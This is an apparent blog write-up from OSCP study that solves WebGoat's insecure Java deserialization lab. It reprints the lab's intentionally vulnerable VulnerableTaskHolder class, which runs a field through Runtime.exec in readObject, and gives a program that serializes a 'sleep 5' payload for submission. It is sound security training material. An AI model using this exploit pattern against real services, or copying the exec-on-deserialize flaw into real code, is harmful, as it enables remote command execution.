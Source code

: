 Title: Road to OSCP: WebGoat insecure deserialization challenge
Summary: A little writeup about insecure Java deserialization assignment
Date: 2020-03-05 16:00
Status: published
Category: OSCP
Tags: webgoat, websec, deserialization

The only practical assignment in A8 could be easily solved by anyone who worked with Java before, but I've stuck a little mostly because I'm not familiar with Java at all. To properly land attack on insecure deserialization we need to know some type with insecure method. As far as there aren't any types given in task definition and nothing points to that we should extract it some way, it was assumed that there is `VulnerableTaskHolder` used. This class was presented in a lesson before and looks like this:

```java
package org.dummy.insecure.framework;

import java.io.*;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {

        private static final long serialVersionUID = 1;
        private String taskName;
        private String taskAction;
        private LocalDateTime requestedExecutionTime;

        public VulnerableTaskHolder(String taskName, String taskAction) {
                super();
                this.taskName = taskName;
                this.taskAction = taskAction;
                this.requestedExecutionTime = LocalDateTime.now();
        }

        private void readObject( ObjectInputStream stream ) throws Exception {
                stream.defaultReadObject();
                Runtime.getRuntime().exec(taskAction);
     }
}
```

So the `readObject` method is obviously flawed in context of this task, because it could run any command line that could be coming in from untrusted actor since class is serializable. All I have to do is to write such a snippet that does the following:

  1. Contain exact same definition of `VulnerableTaskHolder`
  2. Creates an instance of it with such a command that cause delay for 5 seconds (task goal)
  3. Serialize that instance to file

After we have to base64 encode content of output and provide it to the WebGoat. A no-brainer for the one who's written something more that hello world in Java. Unfortunately it wasn't me. Such pitfalls were here:

  1. It seems like you can't combine some task definition and main method in one file. There some errors about that `VulnerableTaskHolder` should be defined in corresponding file named after it
  2. Package name is crucial, `VulnerableTaskHolder` should be in package `org.dummy.insecure.framework`
  3. File with `VulnerableTaskHolder` definition should be located in proper directory, in our case it's `./org/dummy/insecure/framework`. It was assumed so and assumption was right. Otherwise I wasn't able to import class from that package in 'main' java app, even with `-classpath` argument provided. I really giggled here, because this assumption came from reminiscence of funny [Enterprise](https://github.com/joaomilho/Enterprise) 'programming' language
  4. Not a Java quirk but my environment's misconfiguration - machine time zone seemed to be UTC+00:00 but WebGoat was running with UTC+03:00 so it refused to proceed with some of the 'exploits'. Just added three hours difference to `requestedExecutionTime`

When all of the mentioned cases were identified solution turned to be pretty simple. Put `VulnerableTaskHolder` to `./org/dummy/insecure/framework`, put main program to `.`, compile with javac and run with java. Here is the main program:
```java
import java.io.*;
import java.time.LocalDateTime;
import org.dummy.insecure.framework.VulnerableTaskHolder;

public class Program {
	public static void main(String[] args) throws FileNotFoundException, IOException, ClassNotFoundException {
		String serFile = args[0];
		System.out.println("Serfile is " + serFile);
		FileOutputStream f = new FileOutputStream(serFile);
		ObjectOutputStream stream = new ObjectOutputStream(f);
		VulnerableTaskHolder o = new VulnerableTaskHolder("wait", "sleep 5");
		stream.writeObject(o);
		stream.close();
		f.close();
	}
}
```

No luck. It was told that `serialVersionUID` has been bumped to newer version. OK, change to two, try again and finally complete the task.
